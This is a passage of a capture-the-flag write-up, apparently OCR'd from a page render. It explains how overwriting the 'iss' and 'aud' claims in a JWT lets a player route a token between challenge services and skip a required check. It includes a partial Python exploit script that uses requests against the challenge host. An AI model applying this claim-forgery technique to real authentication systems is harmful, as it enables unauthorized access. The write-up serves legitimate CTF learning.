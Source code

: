 ```elixir:generalstore/lib/general_store.ex
  end

  # ...
end
```

In conclusion, we can set any value as long as it satisfies either of the conditions:
* Field that doesn't already exist in the payload.
* `exp`, `iat`, `nbf`, `aud` or `iss` field.

Wait... we can set `iss` and `aud` field? That means we can go whereever we want!

By following steps, we go to trailhead with dysentery set to empty string.

1. Proceed to wagon repair server normally.
2. In wagon repair server, set `dysentery` to empty string, `iss` to `charter-authority` and `aud` to `general-store`.
3. Go to general store server, instead of charter authority server.
4. In general store server, set `iss` to `charter-authority` and `aud` to `trailhead`.

Here is the code that does this:

```python:
import webbrowser
import requests
import re
from jwt import api_jws

secret = "TESTJWTSECRET"  # For local only

REMOTE = False
HOST = "trading-post.chal.pwni.ng" if REMOTE else "localhost"
URL = f"http://{HOST}/"

# Charter Authority (start)

r = requests.get(URL + "start", headers={"Host": f"charterauthority.{HOST}"})
token = re.findall(r'<a href="//tokenexchange.[^/]+/enter\?jwt=(.+)">', r.text)[0]

print(token)

if not REMOTE:
    print("After Charter Authority (start)")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])


# Token Exchange

r = requests.post(
    URL + "submit",
    headers={"Host": f"tokenexchange.{HOST}"},
    data={
        "gold_amount": "50",
    },
    cookies={"jwt": token},
    allow_redirects=False,
)

token = r.headers["Location"].split("=")[-1]

if not REMOTE:
    print("After Token Exchange")
    print(api_jws.decode_complete(token, secret, algorithms=["HS256"])["payload"])

r = requests.get(
    URL + "callback",
```